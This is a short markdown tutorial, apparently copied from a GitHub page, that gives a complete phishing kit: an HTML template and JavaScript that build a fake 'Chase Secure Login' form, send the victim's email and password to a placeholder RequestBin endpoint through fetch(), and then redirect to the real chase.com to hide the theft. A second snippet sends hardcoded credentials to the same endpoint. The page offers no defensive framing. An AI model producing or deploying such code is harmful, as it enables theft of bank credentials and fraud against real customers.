 ## 	Full fake login built with JavaScript
> HTML TEMPLATE BELOW :
----
# Full Fake Login via JS

## Goal
> - Build an entire phishing login UI using JavaScript only, 
then capture data and redirect.
---

## HTML Template (phish.html)
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Redirecting...</title>
  </head>
  <body>
    <script src="phish.js"></script>
  </body>
</html>
```
## Build Login Form in JS (phish.js)
```js
// Set page title
document.title = "Chase Secure Login";

// Fake logo
document.body.innerHTML += '<h2>Chase Online™ Secure Login</h2>';

// Create form
document.body.innerHTML += `
  <form>
    <input id="email" placeholder="Email or Username"><br>
    <input id="password" type="password" placeholder="Password"><br>
    <button id="loginBtn">Sign In</button>
    <p id="status"></p>
  </form>
`;

// Hijack login
setTimeout(() => {
  document.getElementById("loginBtn").onclick = function(event) {
    event.preventDefault();
    let email = document.getElementById("email").value;
    let pass = document.getElementById("password").value;

    fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);

    document.getElementById("status").textContent = "✅ Login Successful. Redirecting...";
    setTimeout(() => {
      window.location.href = "https://chase.com";
    }, 2000);
  };
}, 500);
```
## Auto capture without buttons
```js
let email = "admin@victim.com";
let pass = "hunter2";
fetch("https://YOUR-REQUESTBIN.x.pipedream.net?e=" + email + "&p=" + pass);
```

